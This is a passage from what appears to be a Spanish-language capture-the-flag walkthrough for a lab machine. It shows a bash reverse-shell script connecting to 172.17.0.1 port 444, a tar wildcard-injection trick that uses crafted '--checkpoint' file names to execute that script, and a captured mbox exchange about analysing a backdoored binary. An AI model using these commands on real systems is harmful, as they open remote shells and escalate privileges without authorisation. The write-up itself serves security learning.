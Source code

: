 **script.sh**
```bash
cat > script.sh << 'EOF'
#!/bin/bash

bash -c "bash -i >& /dev/tcp/172.17.0.1/444 0>&1"
EOF
```

Ahora ejeuctamos el siguiente comando:
```bash
chmod 0777 script.sh && touch -- "--checkpoint=1" "--checkpoint-action=exec=sh script.sh"
```

Ahora solo esperamos la conexion:
###### Usuario `[ Pedro ]`:
Como este usuario tenemnos este archivo: **mbox** que si lo leermos tenemos lo siguiente:
```bash
pedro@cybersec:~$ cat mbox 
From admin2@cybersec Wed Mar 19 23:02:17 2025
Return-path: <admin2@cybersec>
Envelope-to: pedro@cybersec
Delivery-date: Wed, 19 Mar 2025 23:02:17 +0000
Received: from admin2 by cybersec with local (Exim 4.96)
        (envelope-from <admin2@cybersec>)
        id E1tv2QT-00004Y-04
        for pedro@cybersec;
        Wed, 19 Mar 2025 23:02:17 +0000
To: pedro@cybersec
Subject: debugging & reverse engineering
MIME-Version: 1.0
Content-Type: text/plain; charset="ANSI_X3.4-1968"
Content-Transfer-Encoding: 8bit
Message-Id: <E1tv2QT-00004Y-04@cybersec>
From: admin2 <admin2@cybersec>
Date: Wed, 19 Mar 2025 23:02:17 +0000
Status: RO

Pedro, hemos detectado una posible puerta trasera en el binario que he dejado en tu directorio 
(Este binario fue desarrollado por el antiguo equipo de desarrollo en Dracor S.A. para llevar un registro de entrada/salida de los trabajadores), necesitamos 
que lo analisis y realices un reporte lo mas pronto posible. Quedo atento a tus comentarios, saludos.


From pedro@cybersec Wed Mar 20 00:45:47 2025
Return-path: <pedro@cybersec>
Envelope-to: admin2@cybersec
Delivery-date: Wed, 20 Mar 2025 00:45:47 +0000
Received: from pedro by cybersec with local (Exim 4.96)
        (envelope-from <pedro@cybersec>)
        id 1tv2bb-00005C-0v
        for root@cybersec;
        Wed, 20 Mar 2025 00:45:47 +0000
To: admin2@cybersec
Subject: debugging & reverse engineering
MIME-Version: 1.0
Content-Type: text/plain; charset="ANSI_X3.4-1968"
Content-Transfer-Encoding: 8bit
Message-Id: <E1tv2bb-00005C-0v@cybersec>
From: pedro@cybersec
Date: Wed, 20 Mar 2025 00:45:47 +0000
Status: RO

Buenas tardes, le adelanto los datos mas relevantes del analisis hasta la fecha.
```